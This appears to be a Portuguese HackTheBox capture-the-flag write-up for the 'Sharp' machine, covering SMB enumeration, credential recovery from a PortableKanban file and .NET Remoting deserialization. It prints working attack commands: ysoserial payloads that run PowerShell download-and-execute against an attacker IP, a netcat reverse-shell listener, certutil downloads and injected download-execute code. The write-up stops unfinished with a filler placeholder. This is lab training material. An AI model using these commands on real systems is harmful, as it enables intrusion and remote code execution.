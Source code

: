 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Sharp - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/b8fWlNj.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
smbclient
rpcclient
ExploitRemotingService
netcat
python
ysoserial
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8888/tcp open  storagecraft-image StorageCraft Image Manager
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host


Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-08T12:21:23
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   224.18 ms 10.10.14.1
2   224.76 ms 10.10.10.219
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/Fvm7tk6.png)

Vamos ao diretório kanban
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219\\kanban -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/yIbnT0B.png)

Podemos ver um arquivo chamado PortableKanban.pk3.bak que apararente ser um arquivo de backup, então vamos lê-lo
![Image](https://i.imgur.com/wWij6x7.png)

Ao abri-lo, podemos ver que, dentro do arquivo existem senhas criptografadas:
![Image](https://i.imgur.com/m4DVEag.png)

Começamos acessando o serviço SMB para copiar o programa para nossa maquina:

![Image](https://i.imgur.com/Wkz1IMK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\kanban -N
get pkb.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Essa máquina, pela primeira vez tive que criar uma máquina Windows para usar como atacante...
Extraímos os arquivos do nosso arquivo pkb.zip

![Image](https://i.imgur.com/u7nyOBw.png)


Ao executarmos o arquivo PortableKanban.exe podemos perceber que ele faz a criação do arquivo PortableKanban.pk3.bak onde ele guarda as credenciais...
Então vamos substituir pelo arquivo PortableKanban.pk3.bak que encontramos em nosso alvo.

Ao substituir o arquivo PortableKanban.pk3, precisamos de credenciais para conseguir acessar o programa.

![Image](https://i.imgur.com/q1UFNLT.png)

![Image](https://i.imgur.com/GSP4UQv.png)

Pesquisando um pouco mais sobre o Kanban, pude perceber que dentro do programa é possivel retornar as senhas em plain-text com uma conta de Administrador...
Em nosso arquivo temos essas informações:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"k+iUoOvQYG98PuhhRC7/rg==","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731}
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"Ua3LyPFM175GN8D3+tqwLA==","Role":"User","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Portanto, temos um usuário administrador e um user comum.
O que podemos fazer é tentar editar o arquivo que guarda as senhas para acessar
Primeiro, vamos remover a senha do usuário lars para conseguir a senha do usuário Administrator, para isso deixaremos o campo 'EncryptedPassword' vazio, além disso, mudaremos a parte 'Role' de user para Admin.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"","Role":"Admin","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, tentamos acessar o programa com usuário 'lars' sem senha.

![Image](https://i.imgur.com/Af60F1P.png)


Ao desmarcar a opção Hide Passwords, temos nossas primeiras credenciais:
![Image](https://i.imgur.com/fk984oq.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Administrator:G2@$btRSHJYTarg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, podemos voltar para nosso arquivo PortableKanban.pk3 inicial.
Agora ao abrirmos o Kanban, usamos as credenciais de Administrator.

Agora temos credenciais do usuário lars e do usuário Administrator:
![Image](https://i.imgur.com/tlGO5us.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
lars:G123HHrth234gRG
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

No outro diretório do SMB, chamado dev:

![Image](https://i.imgur.com/Er6JZCu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Fazemos o download de todos esses arquivos para a nossa máquina para podermos analisarmos.

Usamos o dnSpy para analisar os arquivos .exe
Dentro do arquivo Client.exe, temos uma informação interessante:

![Image](https://i.imgur.com/gUNQ87R.png)

Temos uma credencial e um endereço:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
debug:SharpApplicationDebugUserPassword123!
tcp://localhost:8888/SecretSharpDebugApplicationEndpoint
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pesquisando sobre como interagir com esse serviço, encontramos um exploit que interage com esse serviço através do Remoting.Channels.Tcp, o [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService).

Podemos compilar ele em nossa máquina, ou já fazer o download dele [compilado](https://github.com/parteeksingh005/ExploitRemotingService_Compiled).

Agora precisamos preparar nosso payload que enviaremos atraves do ExploitRemotingService.
Para isso vamos precisar do python e também do [yososerial](https://github.com/pwntester/ysoserial.net).

Devemos compilar o yososerial ou baixa-lo já [compilado](https://github.com/pwntester/ysoserial.net/releases/tag/v1.34).

Após isso, devemos preparar nossa shell.
Usaremos está [shell.ps1](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

Vamos usar o ysoserial para criar nosso payload:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('10.10.14.136/chu.ps1')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com o ExploitRemotingService enviaremos o nosso payload:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ExploitRemotingService.exe --user=debug --pass=SharpApplicationDebugUserPassword123! tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao enviar o payload, devemos ativar nosso servidor python e abrir uma porta em nossa máquina para receber a conexão de nossa shell.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -m SimpleHTTPServer 80
nc -vvnlp 1337
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos nossa shell inicial :)

Para escalar nossos privilégios, vamos executar o 'winpeas.exe', portanto, devemos envia-lo primeiro, vamos gerar nosso payload no ysoserial:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('http://10.10.14.128/winpeas.exe')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a pasta C:\users\lars\Documents\ nos deparamos com uma pasta chamada wcf, vamos compacta-la e move-la para o diretório compartilhado do SMB.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Compress-Archive -LiteralPath C:\users\lars\Documents\wcf -DestinationPath C:\users\lars\Documents\wcf.zip
move-item -path C:\users\lars\Documents\wcf.zip -destination c:\dev
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após compactar e mover para pasta compartilhada no SMB, acessamos com credenciais já obtidas e baixamos para nossa máquina:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao baixar o arquivo para nossa máquina, podemos abri-lo no VisualStudio:
![Image](https://i.imgur.com/yEePAM8.png)

Vamos adicionar nossa linha no código
![Image](https://i.imgur.com/MBxWpho.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Console.WriteLine(client.InvokePowerShell(" iex (new-object net.webclient).downloadstring('http://10.10.14.136/chu.ps1')"));
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
certutil -urlcache -split -f "http://10.10.14.136/WcfRemotingLibrary.dll" WcfRemotingLibrary.dll
certutil -urlcache -split -f "http://10.10.14.136/WcfClient.exe" WcfClient.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo 





if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://parsiya.net/blog/2015-11-14-intro-to-.net-remoting-for-hackers/
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp?view=netframework-4.8
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp.tcpchannel?view=netframework-4.8
https://github.com/tyranid/ExploitRemotingService
https://eternallybored.org/misc/netcat/
https://github.com/pwntester/ysoserial.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
